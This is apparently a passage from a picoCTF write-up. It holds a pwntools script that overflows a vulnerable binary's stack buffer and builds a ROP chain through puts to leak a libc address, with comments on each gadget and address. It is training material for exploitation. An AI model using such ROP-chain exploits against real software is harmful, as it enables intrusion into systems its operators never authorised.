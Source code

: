 `ROPgadget --binary vuln | grep -i ": ret"` (search for any ret instruction), 
`0x000000000040052e : ret`, we will use 0x40052e

FINALLY WORKING WORKING EXPLOIT (only works locally)
```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln') # start the vulnerable program process
 
# we reached EOF (End Of File) with our payload
# gdb.attach(p) # debug our ROPchain

# p = remote('mercury.picoctf.net', 37289)

offset = 136 # we discovered that with 'pattern offset $rsp'
junk = b"A" * offset # creating our payload that will overflow

# where do we jumpt to since we cant execute it off the stack
# way to print out the address

"""
Plan to leak an address:
- use puts
- supply arguments to puts
- we will use ROP to do this:
	but will need the x64 calling conventions
- that means the register 'rdi' is the first argument
	we want to find a ropgadget that modifies (like a mov or pop) the rdi 
"""

pop_rdi = 0x400913 # 0x0000000000400913 : pop rdi ; ret (`ROPgadget --bin vuln`)
# scanf_at_got = 0x601038 # DAT_00601038, address of .got.plt section of the scanf function in ghidra
# puts_at_got = 0x601018 # same as the scanf_at_got, but we changed the function to leak the address
setbuf_at_got = 0x601028 # same as the above, but we changed the function once again to leak the address

puts_at_plt = 0x400540 # 00400540, address of .plt section of the puts function in ghidra
back_to_main = 0x400771 # 00400771, addres of main in ghidra

payload = [
	junk, # junk to overflow
	# call puts to leak the true scanf address
	p64(pop_rdi), # packs the integers into bytes (returns a 64-bit little-endian byte string representation as a hexadecimal-encoded string)
	p64(setbuf_at_got), # address we want to leak
	p64(puts_at_plt), # callpoint
	p64(back_to_main) # jump back to main, so that it won't crash after we leak the address
]

payload = b''.join(payload) # mix all those variables in the payload list and transforms everything in bytes
p.sendline(payload) # send payload

# to get the leaked address
p.recvline()
p.recvline()

# unpack it and save the leak address, strip the \n, and adjusts the string padded with 8 bytes 
# and suffix it with null bytes and turn it into hexadecimal
leak = u64(p.recvline().strip().ljust(8, b"\x00")) 
```